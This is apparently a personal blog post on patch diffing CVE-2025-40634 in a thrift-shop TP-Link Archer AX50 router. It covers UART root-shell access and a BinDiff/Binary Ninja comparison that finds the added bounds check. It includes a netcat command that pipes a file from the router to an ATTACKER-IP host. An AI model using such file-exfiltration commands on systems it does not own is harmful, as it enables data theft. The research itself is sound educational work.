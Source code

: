 ```yaml
---
layout: post
title: Patch Diffing CVE-2025-40634 With BinDiff and Binary Ninja 
subtitle: Diffing a known fix in the TP-Link Archer AX50 Router
tags: hax cve patch binaryninja bindiff 
date: 2025-08-23
background: https://lh3.googleusercontent.com/d/1r3TceEVmIcL918IuDKL1MaNrZRL0jntH
---
```


# My Adopted Router
A long time hobby of mine is going to thrift shops to buy old routers, security cams, and other misc IoT devices. They're often at a great discount, so I don't feel guilty if I totally botch the devices through experiments. They make great "target practice" from a vulnerability research perspective. 

It was my lucky day when I found a [TP-Link Archer AX50](https://www.tp-link.com/us/home-networking/wifi-router/archer-ax50/) at my local thrift shop (score!!). Of course I purchased it right away and ran out the door to get straight to work. A quick shakedown of the router revealed that it is running firmware version [1.0.14](https://www.tp-link.com/us/support/download/archer-ax50/v1/#Firmware), which is vulnerable to [CVE-2025-40634](https://nvd.nist.gov/vuln/detail/cve-2025-40634), a stack overflow vulnerability in the `conn-indicator` service running on the router. 

[hacefresko](https://github.com/hacefresko/CVE-2025-40634/tree/main) created an excellent working exploit against this exact model and firmware version of the router, which worked right out of the box! Greetz to hacefresko for the working exploit and [Flashback Team](https://www.flashback.sh/) for finding the original vulnerability as part of their Pwn2Own Tokyo 2019 victory. They released an excellent [tutorial](https://www.youtube.com/watch?v=xWoQ-E8n4B0) covering the finding of the vulnerability, and the development of the original exploit. Many of the topics covered in the post are in their video. 

Since there's no point beating that dead horse in this post, we'll briefly go over my router hacking modus operandi, then cover something different and somewhat interesting by bindiffing the vulnerable version vs the patched version of the MIPS `conn-indicator` library with Binary Ninja and BinDiff. 

# Router Shakedown
First things first when acquiring a new target is to boot it up and see what it can do! Sure enough it booted up, and broadcasted an access point with the default password listed under the label. From here there wasn't much use, as a quick port scan against 192.168.0.1 didn't have anything out of the ordinary for a router (usual DNS, UPnP, HTTP, HTTPS, locked-down SSH), and the web interface on port 80 was locked down with a non-standard admin password (default should have been admin:admin for TP-Link). 

Next up is to get dirty and interface with the UART ports. UART stands for Universal Asynchronous Receiver/Transmitter. These are usually 4 pins (Tx, Rx, GND, Vcc) on the board of the device used to flash firmware and interface with the device on the factory. Typically manufacturers don't care for us to mess with UART, so the pins will come without headers, and in some cases the Rx pin can be detached from the circuitry with a missing resistor. 

If we can connect to UART with a UART to USB converter cable, we can get a root shell on the device and cause all kinds of trouble! Refer to Flashback Team's [tutorial](https://www.youtube.com/watch?v=xWoQ-E8n4B0) for the details on accessing UART. The pinout for the TP-Link Archer AX50 is identical to their target, the only difference is that the Rx pin does not need to be jumped with a paperclip. 

# conn-indicator Binary
The purpose of UART for this project is to get our hands on a live (vulnerable) version of the `conn-indicator` binary. Sure, you can download the firmware from [TP-Link's](https://www.tp-link.com/us/home-networking/wifi-router/archer-ax50/) site, then extract it with [binwalk](https://github.com/ReFirmLabs/binwalk) and spelunk through the filesystem for goodies. But that would be too easy, and not guarantee that we have an actual vulnerable version. 

Assuming headers have been soldered on, and have a compatible UART to USB converter ([DSD Tech SH-U09C5](https://www.amazon.com/DSD-TECH-SH-U09C5-Converter-Support/dp/B07WX2DSVB) is what I use and works with Debian 13 for my Linux attacker machine), match up the headers with jumpers to the UART adapter, plug in, and run the following from a linux machine: 

```
sudo screen /dev/ttyUSB0 115200
```
where `/dev/ttyUSB0` is the serial device for the UART adapter, and 115200 is the baud rate. Plug in the router and turn on the power button, there should be a wall of text as part of the boot sequence (mostly `dmesg` stuff). This will drop us into a root privileged busybox shell. 

`ps | grep conn` will tell us that `conn-indicator` is located at `/usr/sbin/conn-indicator`, we just want that file. File transfer over UART isn't always a thing, luckily for us netcat is available through busybox on the router. We'll transfer the binary over that. 

On the attacking machine: 
`nc -lvvp 9001 > /tmp/conn-indicator`

On the router:
`cat /usr/sbin/conn-indicator | nc ATTACKER-IP 9001`
This pipes the contents of the binary into netcat, which pukes everything over TCP to our attacking machine at `/tmp/conn-indicator`; EZ-PZ. 

# Patching The Binary
There's a few ways to approach this one. The easiest option is to get it from [TP-Link's](https://www.tp-link.com/us/home-networking/wifi-router/archer-ax50/) latest firmware and use binwalk to extract the contents. `/usr/sbin/conn-indicator` should exist somewhere in the extracted contents. Since I planned on updating the router anyways, I went and downloaded the firmware, flashed it to the device through the web admin interface, then repeated the previous steps over UART for fun. 

Doing this will give us two version of `conn-indicator`, a version from `1.0.14` and `1.0.16`. 

# Patch Diffing 

Since this router runs on MIPS architecture, all of the binaries we've extracted will be MIPS binaries. Not all free reverse-engineering frameworks will play nicely with MIPS without paying money. [Ghidra](https://github.com/NationalSecurityAgency/ghidra) should work for this as a free option, but this was not tested. [Binary Ninja](https://binary.ninja/) on Windows was used here, because Binary Ninja is cool and I like hacking from Windows. 

With Binary Ninja, we will need the experimental [BinExport](https://docs.binary.ninja/guide/binexport.html) plugin enabled. This allows us to export files that [BinDiff](https://github.com/google/bindiff) consumes. BinDiff is where all the magic happens! 

Before importing/exporting things and making a huge mess of files. MAKE SURE files are labeled nice and neat. In big projects this can get messy fast if version numbers aren't labeled and file names get mixed around. `conn-indicator_1.0.14` for the vulnerable file and `conn-indicator_1.0.16` for the patched file works good enough for now. 

Open up BinaryNinja, go to File -> Open, the pick `conn-indicator_1.0.14`. Go to Plugins -> BinExport, then save it as something distinct and memorable. That's it! 

![](/img/pwn/binja_binexport.png)

Do the same for `conn-indicator_1.0.16`, rinse and repeat. This will end with two `.binexport` files that we'll ship over to BinDiff. 

BinDiff we'll create a new workspace, then add a new diff to that workspace. Select binexport `1.0.14` as the primary and `1.0.16` as the secondary. 

![](/img/pwn/bindiff_import.png)

# The Comparison
In hacefresko's [writeup](https://github.com/hacefresko/CVE-2025-40634), they mention the vulnerable function `DNS_parse_answer()` being located at `0x004054e0`. In BinDiff's view we can very quickly see `sub_4054e0` having the least similarity score and confidence. In patch diffing we typically want to see this to indicate what was most likely changed as part of the patch. Luckily we know the details of the vulnerability in this case, but for most cases we'll be going in blind and doing a lot of guesswork here.  

![](/img/pwn/4054e0.png)

I find that the UI for BinDiff is challenging for hard reverse engineering, so in this case I would go right back to Binary Ninja and dig into the assembly (and decompiled) results there. In the secondary we can see `sub_4038c0` as the function for the patched version, we can search `4038c0` in Binary Ninja to dig into it there. 

![](/img/pwn/0438c0.png)

A bunch of code was refactored in `1.0.16`, but eventually a bounds check is performed before a vulnerable `memcpy` call, and throws an error if it fails. 

# Conclusion
No cool 0-days were discovered or exploits were ported over with this thrift shop haul. In the end it served as great target practice to exercise rusty pentesting skills, and mess around a little with MIPS binaries in Binary Ninja and Bindiff. Thanks again to Flashback Team and hacefresko for their great writeups against this family of TP-Link routers.  
